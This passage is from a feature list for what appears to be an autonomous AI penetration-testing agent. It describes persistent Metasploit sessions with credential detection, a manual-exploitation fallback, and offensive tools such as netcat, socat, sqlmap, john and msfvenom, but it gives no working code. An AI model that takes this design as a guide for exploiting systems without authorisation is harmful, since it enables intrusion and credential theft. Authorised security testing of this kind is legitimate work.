10. **Stateful Exploitation** - Persistent Metasploit sessions with auto-reset and session/credential detection
11. **No-Module Fallback** - When Metasploit has no module for a CVE, the agent falls back to manual exploitation using curl, nuclei, code execution, and Kali shell tools
12. **Failure Loop Detection** - Detects 3+ consecutive similar failures and forces the agent to pivot to a different strategy
13. **Token Optimization** - Compact formatting for older execution trace steps; conditional prompt injection to minimize token usage
14. **Expanded Kali Tooling** - nmap, nuclei, kali_shell (netcat, socat, sqlmap, john, searchsploit, msfvenom, gcc/g++), and execute_code for shell-escaping-free script execution
15. **Multi-Objective Support** - Continuous conversations with context preservation and per-objective attack path classification
16. **Database-Driven Configuration** - All settings fetched from PostgreSQL via webapp API, with standalone defaults fallback
17. **Custom Phase Prompts** - Per-phase system prompt injection for project-specific agent behavior
18. **MCP Retry Logic** - Exponential backoff retry for MCP server connections to handle container startup races
